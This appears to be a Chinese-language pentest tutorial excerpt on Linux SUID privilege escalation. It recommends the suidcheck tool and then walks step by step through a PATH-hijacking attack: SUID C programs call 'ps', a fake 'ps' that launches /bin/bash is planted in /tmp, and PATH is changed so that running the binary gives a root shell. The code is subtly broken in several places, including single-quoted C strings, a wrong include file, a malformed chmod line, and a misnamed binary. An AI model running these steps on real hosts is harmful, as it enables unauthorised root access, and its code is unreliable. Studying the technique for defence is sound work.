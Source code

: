 ```

**推荐工具**

https://github.com/Jewel591/suidcheck

该工具用于自动寻找可用于suid提权的程序，并给出相应的提权方法与参考文章

**参考链接**

https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html#reply

#### 环境变量提权

提权的关键在于，寻找到suid权限的脚本文件，环境变量中有自己能够控制的路径，并且脚本中需要有setuid(),setgid()的操作，可以进行一下测试

当前目录为/home/uu2fu3o/script/

写两个shell文件

```c
shell1.c
========
#include<unistd.h>
void main()
{
 setuid(0);
 setgid(0);
 system('ps');
}
shell2.c
#include<unistd.c>
void main()
{
    setgid(0);
    system('ps');
}
```

分别使用gcc进行编译

```
gcc shell1.c -o shell1 
gcc shell2.c -o shell2
```

分别赋予两个脚本文件suid权限

```
chmod u+s shell1/shell2
```

```
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/uu2fu3o/script
./shell
whoami
```
